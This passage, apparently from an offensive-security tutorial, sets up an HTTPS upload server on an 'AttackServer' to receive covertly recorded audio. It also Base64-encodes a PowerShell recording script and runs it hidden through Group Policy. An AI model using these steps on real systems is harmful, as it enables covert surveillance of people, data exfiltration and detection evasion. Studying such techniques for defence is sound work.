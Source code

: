 - -keyout server.pem: Defines the output file for the private key. Both the certificate and the private key will be stored in server.pem.

- -out server.pem: Specifies the output file for the certificate, which in this case is also server.pem.

- -days 365: Sets the certificate’s validity period to 365 days.

- -nodes: Instructs OpenSSL to skip the option of encrypting the private key with a passphrase, allowing it to be used without additional prompts.

Once the certificate is generated, we can start the HTTPS server using a Python script:

```
root@AttackServer: ~# python simpleHTTPsUpload.py
Listening on port 443...
[...]
```

Note: this script can be sourced here: <https://github.com/sparcflow/GibsonBird/blob/master/chapter5/simpleHTTPsUpload.py>

The server is now up and running, waiting to receive the audio files that will be uploaded by the PowerShell script.

With our attack server in place, the next step is to encode the PowerShell script for easier execution via a Group Policy Object (GPO). By converting the script into a Base64-encoded string, we can embed it into a registry key or use it in a command line without worrying about script blocks being intercepted or altered.

Here’s how the encoding process works:

```
PS> $command = get-content .\record.ps1
PS> $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
PS> $encodedCommand = [Convert]::ToBase64String($bytes)
PS> write-host $encodedCommand
```

A short explanation:

- ```get-content .\record.ps1```: Reads the content of the PowerShell script file record.ps1.

- ```$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)```: Converts the script content into a byte array using Unicode encoding.

- ```$encodedCommand = [Convert]::ToBase64String($bytes)```: Encodes the byte array into a Base64 string, which can be easily transmitted or stored.

- ```write-host $encodedCommand```: Outputs the Base64-encoded string to the console.

This encoded string can then be executed using the following command:

```
Powershell.exe -NonI -W Hidden -enc aQBtAHAAbwByA[...] 
```

Notes:

- -NonI: Runs PowerShell in non-interactive mode (-NonI), which is ideal for scripts and commands that don’t require user input.
